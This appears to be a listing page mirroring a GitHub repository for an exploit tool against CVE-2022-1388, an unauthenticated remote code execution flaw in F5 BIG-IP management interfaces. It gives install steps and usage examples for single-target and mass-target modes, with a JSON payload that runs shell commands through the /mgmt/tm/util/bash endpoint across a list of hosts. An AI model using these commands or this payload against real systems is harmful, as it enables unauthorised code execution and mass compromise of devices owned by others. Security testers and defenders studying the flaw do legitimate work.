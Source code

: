 # CVE-2022-1388

Tool for CVE-2022-1388 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/justakazh](https://github.com/justakazh) |
| Url      | [https://github.com/justakazh/CVE-2022-1388](https://github.com/justakazh/CVE-2022-1388)                                               |
| Stars    | 14                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* automation* cve* cve-2022-1388* exploit* tools

</details>

## Readme

# CVE-2022-1388
## Checking and exploit for CVE-2022-1388

#### Installation:
```
python3 -m pip install -r requirements.txt
```

#### Usage

Single : 
```bash
python3 cve.py s [fullurl] [api_command]

#example
python3 cve.py s http://127.0.0.1:8000/mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}'
```
Mass :

```bash
python3 cve.py m [host list] [endpoint] [api_command] [pool]

#example
python3 cve.py m host.txt /mgmt/tm/util/bash '{"command":"run","utilCmdArgs":"-c id"}' 10
```

### References:
- https://github.com/Zeyad-Azima/CVE-2022-1388
- https://github.com/bandit92/CVE2022-1388_TestAPI
- https://github.com/alt3kx/CVE-2022-1388_PoC
- https://www.obrela.com/f5-big-ip-cve-2022-1388-unauthenticated-rce-vulnerability/



## Get the content

```
git clone https://github.com/justakazh/CVE-2022-1388
cd CVE-2022-1388
```

{% embed url="https://github.com/justakazh/CVE-2022-1388" %}

<figure><img src="https://avatars.githubusercontent.com/u/36891477?v=4" alt=""><figcaption><p>justakazh</p></figcaption></figure>
